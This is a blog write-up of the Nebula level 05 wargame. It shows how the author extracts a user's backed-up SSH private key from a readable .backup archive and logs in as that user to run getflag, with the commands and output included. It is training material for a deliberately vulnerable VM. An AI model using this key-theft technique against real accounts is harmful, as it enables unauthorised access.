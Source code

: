 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 05"
date: 2011-12-06T05:24:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


So going forward to the [Nebula 05](http://exploit-exercises.com/nebula/level05), we now have to find some sort of weak permissions somewhere to escalate from level05 to flag05.  In searching through the flag05 home directory, I saw a ".backup" folder containing a copy of the user's old ssh keys. I extracted the archive to the level05 user's directory, so they could be used.

<!-- more -->

```
level05@nebula:/home/flag05$ cd .backup
level05@nebula:/home/flag05/.backup$ tar -xzvf backup-19072011.tgz -C /home/level05
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Once that was setup, I simply tried to SSH back to the local machine but using the flag05 user, since I had their authentication keys.  Luckily it was secured *only* with keys, and not a password as well.  This let me right in.

```
level05@nebula:/home/flag05/.backup$ ssh flag05@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

* Documentation:  https://help.ubuntu.com/
Last login: Fri Dec  2 04:36:54 2011 from localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
flag05@nebula:~$
```

After getting in, I ran the "getflag" command, in case it does store the results somewhere.